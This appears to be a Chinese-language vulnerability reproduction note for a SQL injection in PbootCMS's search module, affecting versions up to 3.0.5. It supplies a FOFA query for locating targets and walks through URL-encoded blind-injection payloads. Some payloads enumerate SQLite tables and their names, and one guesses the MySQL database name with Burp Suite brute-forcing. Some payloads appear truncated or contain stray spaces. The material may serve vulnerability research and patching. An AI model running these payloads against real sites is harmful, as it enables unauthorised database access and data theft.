





# PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS <= 3.0.5
```

## 网络测绘

```
app="PBOOTCMS"
```

## 漏洞复现

本地搭建最新版本,访问首页


我们需要访问一个存在的页面

url中13后加个单引号 `'`，若为执行sql报错相关,则漏洞存在



若显示下图，则漏洞无法利用


程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```



通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错



由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a
```



猜解第一个表名称,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimi
```



这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同